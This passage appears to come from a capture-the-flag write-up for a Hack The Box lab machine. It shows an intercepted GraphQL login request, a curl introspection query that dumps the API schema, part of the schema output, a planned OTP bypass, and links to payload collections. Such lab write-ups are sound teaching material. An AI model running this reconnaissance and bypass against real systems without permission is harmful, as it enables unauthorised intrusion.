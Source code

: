 ```
POST /graphql HTTP/1.1
Host: internal-api.graph.htb
Content-Length: 279
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Origin: http://internal.graph.htb
Referer: http://internal.graph.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"variables":{"email":"admin@admin.com","password":"admin"},"query":"mutation ($email: String!, $password: String!) {\n  login(email: $email, password: $password) {\n    email\n    username\n    adminToken\n    id\n    admin\n    firstname\n    lastname\n    __typename\n  }\n}"}
```

If this GQL is anything like SQL it should lead to injection: this would allow
to bypass / overwrite the OTP.

#### Getting the schema

[Hacktricks][hacktricks-graphql] shows how to retrive the information about all the parameters:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"query\":\"{__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}\"}' \
    $'http://internal-api.graph.htb/graphql'
```

There are a few interesting queries / objects available: messages, upload, tasks, user.

For example:

```json
{
    "kind": "OBJECT",
    "name": "Query",
    "description": "",
    "fields": [
        {
            "name": "Messages",
            "description": "",
            "args": [],
            "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                    "kind": "NON_NULL",
                    "name": null,
                    "ofType": {
                        "kind": "OBJECT",
                        "name": "Message",
                        "ofType": null
                    }
                }
            },
            "isDeprecated": false,
            "deprecationReason": null
        },
        {
            "name": "tasks",
            "description": "",
```

[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html